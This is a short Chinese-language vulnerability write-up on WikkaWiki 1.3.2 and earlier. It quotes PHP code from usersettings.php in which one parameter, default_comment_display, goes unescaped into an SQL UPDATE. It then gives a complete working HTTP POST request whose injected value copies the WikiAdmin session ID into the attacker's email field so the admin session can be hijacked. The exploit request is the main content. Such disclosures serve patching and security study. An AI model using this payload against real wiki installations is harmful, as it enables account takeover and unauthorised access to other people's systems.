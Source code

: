 # WikkaWiki <= 1.3.2 - Multiple Security Vulnerabilities
---
/actions/usersettings/usersettings.php代码中存在此漏洞

```
141. $this->Query("
142.    UPDATE ".$this->GetConfigValue('table_prefix')."users
143.    SET email = '".mysql_real_escape_string($email)."',
144.    doubleclickedit = '".mysql_real_escape_string($doubleclickedit)."',
145.    show_comments = '".mysql_real_escape_string($show_comments)."',
146.    default_comment_display = '".$default_comment_display."',
147.    revisioncount = ".$revisioncount.",
148.    changescount = ".$changescount.",
149.    theme = '".mysql_real_escape_string($usertheme)."'               
150.    WHERE name = '".$user['name']."'
151.    LIMIT 1"
152. );
```

在进行update操作的时候，$default_comment_display是唯一一个没有用mysql_real_escape_string()处理过的参数

可以构造语句获取admin的会话记录用于会话劫持，构造以下请求

```
POST /wikka/UserSettings HTTP/1.1
Host: localhost
Cookie: 96522b217a86eca82f6d72ef88c4c7f4=c3u94bo2csludij3v18787i4p6
Content-Length: 140
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
 
action=update&email=test%40test.com&default_comment_display=',email=(SELECT sessionid FROM wikka_sessions WHERE userid='WikiAdmin'),theme='
```

如果admin已经登录或者会话仍未过期，就可获得admin的会话记录